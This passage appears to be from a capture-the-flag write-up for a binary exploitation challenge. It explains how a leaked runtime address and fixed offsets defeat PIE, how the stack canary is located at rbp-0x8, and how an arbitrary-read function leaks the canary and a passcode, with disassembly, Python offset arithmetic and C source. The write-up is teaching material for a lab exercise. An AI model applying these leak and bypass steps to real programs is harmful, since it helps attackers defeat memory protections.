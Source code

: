 What is constant is the offset of functions, instructions from the base address, what I mean by offset is the following raw addresses of each assembly instructinos, they are all the "distances" of instructions from the base address of the program
```as
0000000000000e27 <UwU_main>:
e27:	55                   	push   rbp
e28:	48 89 e5             	mov    rbp,rsp
e2b:	48 83 c4 80          	add    rsp,0xffffffffffffff80
```
Once we know one of the instructions' address. For example, `0x5643afe00e27` being the runtime address of `e27:	55                   	push   rbp`, the starting address of UwU_main. We are able to calculate the addresses of any other instructions based on the offsets 
```py
UwU_main_offset = 0xe27
know_more_offset = 0xd97
main_offset = 0xfaf
UwU_flag_offset = 0xc60

know_more_addr = UwU_main_addr - UwU_main_offset + know_more_offset
main_addr = UwU_main_addr - UwU_main_offset + main_offset
UwU_flag_addr = UwU_main_addr - UwU_main_offset + UwU_flag_offset
```

Moreover, the address leak of `UwU` is probably intended for calculating the address of canary.   
We can calculate the exact runtime address of canary after knowing the address of `UwU`, because from the assembly, we know the offset of both `UwU` and `canary` from `rbp`
```as
0x0000555555400e2f <+8>:     mov    rax,QWORD PTR fs:0x28
0x0000555555400e38 <+17>:    mov    QWORD PTR [rbp-0x8],rax ; canary 
0x0000555555400e3c <+21>:    xor    eax,eax
0x0000555555400e3e <+23>:    mov    QWORD PTR [rbp-0x70],0x557755 ; UwU
```

We know that `rbp-0x8` is most likely canary because:
- canary is often first initialized (randomized) in fs:0x28, then gets passed to `rbp-0x8` to detect memory overwrites 
- canary typically {{ends in `0x00`}} and indeed the one in `rbp-0x8` always ends in `0x00`, which we'd know after inspecting with `x/gx $rbp-0x8` in pwndbg. For example, a canary may look like `0x270948b701efc000`

## Content leak
```c

void know_more_about_UwU()
{
	char addr[20];
	printf("\nGive UwU an address and UwU will tell you what is in that address!\n");
	printf("* Please enter an address e.g. 0x7fffdeadbeef: ");
	fgets(addr, 20, stdin);

	// UwU_main address is 0x555555400e27 (local PIE)
	// passcode address is 0x5555556020ec (local PIE)
	printf("That address contains %p\n\n", *(unsigned long long *)(void *)strtol(addr, NULL, 0));
}
```
The above function leaks content of a particular address, which is perfect for leaking the value of passcode and canary after we have calculated their addresses.   
Therefore, the plan is the get into this function twice. Following normal program flow, we would get in here at least once if we don't input anything other than 1 or 2 here:
```c
	puts("Btw, do you want to know more about the world of UwU?");
	printf("* Please enter a choice (1:Yes, 2:Yes): ");
	fgets(choice, 2, stdin); // in rbp-0x80 somehow
	getchar();

	if ((atoi(choice) == 1) || (atoi(choice) == 2))
```